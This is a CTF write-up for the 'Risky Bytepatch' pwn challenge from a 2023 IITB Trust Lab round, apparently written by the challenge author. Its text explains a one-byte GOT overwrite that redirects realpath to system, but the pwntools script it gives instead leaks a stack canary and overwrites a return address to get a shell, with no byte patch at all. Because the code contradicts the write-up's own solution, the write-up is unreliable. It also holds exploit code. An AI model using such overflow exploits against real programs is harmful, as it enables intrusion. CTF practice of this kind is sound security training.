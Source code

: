 ```yaml
---
title: "CTF Writeup for Risky Bytepatch - A challenge in IITB Trust Lab CTF Round 2 2023"
last_modified_at: 2023-10-27
classes: wide
categories:
  - writeups
  - 2k23
  - IITBCTF
tags:
  - Writeup
  - Trust Lab CTF
  - pwn
---
```


This challenge was created by me for Trust Lab CTF Round 2 held in October 2023

# Challenge Description

Can you get the flag by changing a byte of the path resolving service running on the server?

[Here]({{site.baseurl}}/assets/ctf/2023/IITBCTF/risky_bytepatch.zip) are the challenge files.

## Solution 

We see that the program takes input and calls realpath function on it.
We can patch one byte of the program.
The files also include Dockerfile. Thus, we can get the libc that is used by the program running on server.
We see that `system` and `realpath` are in same 0x100 aligned block.
Therefore, after one call to realpath, we can replace last byte of address in GOT entry of realpath.
Now using the realpath functionality, a call to `system("/bin/sh")` can be made.

Here is the solution script.

```python
from pwn import *
context.log_level = 'debug'

p = process('./vuln')

p.sendline(b'300')

p.recvuntil(b'Say Something:')
p.sendline(b'a'*280)
# sleep(1)

p.recvuntil(b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n')
# print(str(p.recv()))
canary = b'\x00' + p.recv(7)

log.warn(str(canary))

ret_add = p64(0x40129b)
p.sendline(b'a'*(0xa8-0x40) + canary + b'a'*7 * 8 + ret_add)

p.interactive()
```
